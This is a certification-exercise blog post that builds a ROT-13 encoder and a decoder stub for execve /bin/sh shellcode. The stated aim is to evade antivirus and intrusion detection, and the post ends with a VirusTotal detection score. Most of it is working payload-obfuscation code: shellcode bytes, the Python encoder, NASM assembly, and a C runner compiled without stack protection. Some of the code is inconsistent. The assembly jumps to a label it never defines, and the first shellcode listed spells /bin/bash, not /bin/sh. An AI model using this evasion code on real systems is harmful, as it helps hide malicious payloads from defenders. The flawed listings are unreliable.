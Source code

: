```yaml
---
layout: single
title: ROT-13 Shellcode encoder - SLAE32 Fourth Exam Assignment
date: 2020-7-02
classes: wide
header:
  teaser: /images/encoder.jpg
tags:

  -SLAE
--- 
```


## Introduction
Hello Everyone!
This blog post is dedicated to Assignment 4 of the SLAE32 Exam, which is about creating Custom Shellcode encoder.


<p align="center"> 
<img src="https://raw.githubusercontent.com/NagliNagli/naglinagli.github.io/master/images/encoder.jpg">
</p>

## Assignment 4 - Custom Shellcode encoder


There are 2 main instructions provided to us in this assignment:
- [ ] Create a custom encoding scheme for your shellcode
- [ ] Create a working PoC with the execve-stack shellcode presented and execute.

## Creating the execve ROT-13 Encoded shellcode

First of all, as presented in our task, we will use the execve-stack shellcode which is presented below.

```c
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

Our shellcode is simple stack-based execve SYSCALL that executes /bin/sh

The reason for us to implement encoding scheme on our shellcode is in-order to make it harder for AV’s and IDS to match the new shellcode that we craft by making it obfuscated.


<p align="center"> 
<img src="https://raw.githubusercontent.com/NagliNagli/naglinagli.github.io/master/images/virus.png">
</p>

### Encoding our shellcode

As for the XOR encoding method, it's already populated throughout the shellcoding world and most AV's and IDS's are well aware of those encoding schemes.

I have decided to choose to encode my shellcode with the ROT-13 technique.

<p align="center"> 
<img src="https://raw.githubusercontent.com/NagliNagli/naglinagli.github.io/master/images/ROT13.png">
</p>


I have created rot13encoder.py in order to craft the encoded shellcode within the ROT-13 technique

the code is presented below:


```python
#!/usr/bin/env python
# Filename: rot13encoder.py
# Author: Gal Nagli
 
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
 
rot = 13
full = 256 - rot
 
encodedc = ""
encodednasm = []
 
for x in bytearray(shellcode):
    if x < full:
        encodedc += '\\x%02x' % (x + rot)
        encodednasm.append('0x%02x' % (x + rot))
    else:
        encodedc += '\\x%02x' % (rot - 256 + x)
        encodednasm.append('0x%02x' % (rot - 256 + x))
 
print "Encoded Representation for C file:\n%s\n" % encodedc
 
print "Encoded Representation for nasm file:\n%s\n" % ','.join(encodednasm)

```

Next, i will excecute the python script and i will get as output my encoded execve-stack shellcode with easily crafted representation for our decoder.nasm file and shellcode.c file.

```python
python rot13encoder.py
```

![encoder](/images/encoderrot13.png)

### Creating the decoder stub

Now, after crafting the encoded shellcode, i will create my decoder.nasm file. 

Which will decode the shellcode and craft the "decoder stub" which will append right before our shellcode.

```c
# Filename: decoder.nasm
# Author: Gal Nagli
global _start
section .text
_start:
	jmp short call_shellcode
decoder:
	pop esi ; pop the address of the shellcode in the ESI register
	xor ecx, ecx ; zeroing out the ECX register
	mov cl, 25 ; counter = 25 (length of the shellcode, number of loops)
	
decode:
	cmp byte [esi], 0xD ; compare if it's possible to substract the value 13 from the byte
	jl max_reached ; jump if less -> full_reached
	sub byte [esi], 0xD ; substract the value 13
	jmp short shellcode
	
full_reached:
	xor edx, edx ; zeroing out the EDX register
	mov dl, 0xD ; set the value 13 into the EDX register
	sub dl, byte [esi] ; subtract 13 - byte value of the shellcode
	xor ebx, ebx ; zeroing out the EBX register
	mov bl, 0xff ; 0xff = 255 (making it two-staged to not encounter null-byte)
	inc ebx ; = 256
	sub bx, dx ; 256 - (13 - byte value of the shellcode)
	mov byte [esi], bl ; move bl into the ESI register
	
shellcode:
	inc esi ; move to the next byte
	loop decode ; loop "decode"
	jmp short EncodedShellcode
	
call_shellcode:
	call decoder
	EncodedShellcode: db 0x3e,0xcd,0x5d,0x75,0x3c,0x3c,0x80,0x75,0x75,0x3c,0x6f,0x76,0x7b,0x96,0xf0,0x5d,0x96,0xef,0x60,0x96,0xee,0xbd,0x18,0xda,0x8d

```

Now, i will compile the decoder.nasm file and i will recieve our shellcode with the decoderstub beforehand.

```bash
./compile.sh decoder
```

![decoder](/images/decoder.png)


Now, i will insert the crafted shellcode into our shellcode.c program, as the following:

```c
#include<stdio.h>
#include<string.h>

unsigned char shellcode[] = \

// Decoder Stub:
"\xeb\x24\x5e\x31\xc9\xb1\x19\x80\x3e\x0d\x7c\x05\x80\x2e\x0d\xeb\x10\x31\xd2\xb2\x0d\x2a\x16\x31\xdb\xb3\xff\x43\x66\x29\xd3\x88\x1e\x46\xe2\xe3\xeb\x05\xe8\xd7\xff\xff\xff"

// Encoded Shellcode:
"\x3e\xcd\x5d\x75\x3c\x3c\x80\x75\x75\x3c\x6f\x76\x7b\x96\xf0\x5d\x96\xef\x60\x96\xee\xbd\x18\xda\x8d";


main()
{

	printf("Shellcode Length:  %d\n", strlen(shellcode));

	int (*ret)() = (int(*)())shellcode;

	ret();

}

```

### Creating the executeable

```c
gcc shellcode.c -fno-stack-protector -z execstack -o rot13execve
```

```c
./rot13execve
```


![execve](/images/execverot13.png)

And that's it! we have a running ROT-13 encoded /bin/sh shellcode.

### Uploading our shellcode to virustotal:
Uploading the crafted ROT-13 encoded execve shellcode to VirusTotal returned the following:

![vt](/images/virustotal.png)

Although it was kinda expected because i have used a public known encoding scheme, 17/75 detection ratio is good enough for me at this stage :-)
Thank you very much for sticking around!

## References

* ROT-13 technique - <https://he.wikipedia.org/wiki/ROT13>

## Wrap-Up
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification

<https://www.pentesteracademy.com/course?id=3>

Student ID: SLAE - 1543

All the source code which i have used throughout the assignment is available here:
<https://github.com/NagliNagli/SLAE/tree/master/ROT13-Execve-Shellcode>

Cheers,
Gal.
